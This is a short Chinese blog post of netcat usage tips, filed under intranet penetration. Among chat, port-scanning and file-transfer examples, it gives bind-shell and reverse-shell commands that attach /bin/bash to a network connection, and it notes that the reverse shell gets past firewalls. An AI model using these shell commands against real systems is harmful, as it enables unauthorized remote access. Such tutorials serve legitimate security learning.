 ```yaml
---
title: "netcat 使用技巧"
date: 2018-02-14T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['windows','linux']
categories: ['内网渗透']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



netcat 是一个用于 TCP/UDP 连接和监听的 linux 工具, 主要用于网络传输及调试领域.

<!--more-->

## 聊天室

`Server: nc -l -p port`

`Client: nc ip port`

此时在 client 输入任何内容都会在 server 中显示

## 端口扫描

`nc -v ip port`

`nc -v ip port-port`

参数

```
-v 详细输出 -vv 更详细
-w sec 设置超时时间 单位秒
-z 在扫描端口后立即关闭连接
```

ex

`nc -vv -w 3 -z 10.0.0.1 1-65535`

## 正向连接

`Server: nc -l -p port -e /bin/bash`

`Client: nc ip port`

参数

```
-e 连接后执行的程序
```

client 连接 server

有时会被防火墙拦截

## 反向连接

`Client: nc -vv -l -p port`

`Server: nc -e /bin/bash ip port`

server 连接 client

不会被防火墙拦截

## 数据传输

**发送**

`Client: nc ip port < file`

`Server: nc -d -l -p port > file`

参数

```
< 输入重定向
> 输出重定向
```

**接收**

`Server: nc -d -l -p port < file`

`Client: nc ip port > file`

## 蜜罐

`nc -L -p port`

参数

```
-L 持续监听
```